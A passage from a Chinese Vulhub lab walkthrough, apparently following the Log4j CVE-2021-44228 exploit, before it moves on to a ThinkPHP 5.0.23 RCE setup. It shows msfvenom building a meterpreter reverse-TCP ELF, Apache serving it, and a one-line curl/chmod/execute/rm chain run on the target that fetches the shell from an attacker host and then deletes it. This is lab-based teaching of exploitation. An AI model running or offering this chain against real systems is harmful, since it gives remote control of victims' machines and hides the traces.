```
msf6 exploit(multi/handler) > run
```

生成 payload

```
┌──(root㉿kali)-[~]
└─# msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=kali.local lport=6666 -f elf -o /var/www/html/nc2msf6666
```

启动 Web 服务

```
┌──(root㉿kali)-[~]
└─# systemctl start apache2.service
```

在 nc 中控制目标执行命令下载 payload

```
curl -so /tmp/nc2msf6666 http://kali.local/nc2msf6666;chmod +x /tmp/nc2msf6666;/tmp/nc2msf6666;rm -f /tmp/nc2msf6666
```

> 下载 reverse_tcp_shell
>
> 添加执行权限
>
> 执行
>
> 删除
> ![在 nc 中控制目标执行命令下载 payload](./../../../../images/Vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E5%9C%A8%20nc%20%E4%B8%AD%E6%8E%A7%E5%88%B6%E7%9B%AE%E6%A0%87%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4%E4%B8%8B%E8%BD%BD%20payload.png)

### 2.6 thinkphp

### 2.6.1[ThinkPHP5 5.0.23 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/thinkphp/5.0.23-rce/README.zh-cn.md)

**环境配置**

列出 thinkphp 漏洞

```
[root@centos 5.0.23-rce]# ls /root/vulhub/thinkphp
2-rce  5.0.23-rce  5-rce  in-sqlinjection  lang-rce
```

切换到靶场目录
